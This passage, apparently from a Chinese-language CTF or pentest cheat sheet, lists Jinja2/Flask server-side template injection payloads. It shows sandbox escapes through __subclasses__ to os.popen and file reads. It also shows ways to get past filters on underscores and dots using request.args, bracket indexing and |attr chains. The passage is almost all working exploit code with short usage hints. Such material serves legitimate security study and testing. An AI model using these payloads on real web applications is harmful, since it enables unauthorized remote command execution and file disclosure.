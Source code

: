 还可以通过 request 对象逃逸

```python
().__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__[request.args.os].popen(request.args.cmd).read()
```

get 传入 `os=os&cmd=whoami` 即可

### 过滤下划线

利用 request + `[]` 绕过

```python
{{ ''[request.args.class][request.args.mro][-1][request.args.subclasses]()[40]('d:/test.txt').read() }}
```

get 传入 `class=__class__&mro=__mro__&subclasses=__subclasses__`

利用 `|attr` 绕过

```python
{{ (()|attr(request.args.class)|attr(request.args.base)|attr(request.args.subclasses)()).pop(40)('d:/test.txt').read() }}
```

get 传入 `class=__class__&base=__base__&subclasses=__subclasses__`

### 过滤 .

利用 `[] ` 绕过

```python
{{ ''['__class__']['__mro__'][-1]['__subclasses__']()[72]['__init__']['__globals__']['os']['popen']('whoami')['read']() }}
```

利用 `|attr` 绕过

```python
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(59)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("whoami").read()')}}
```
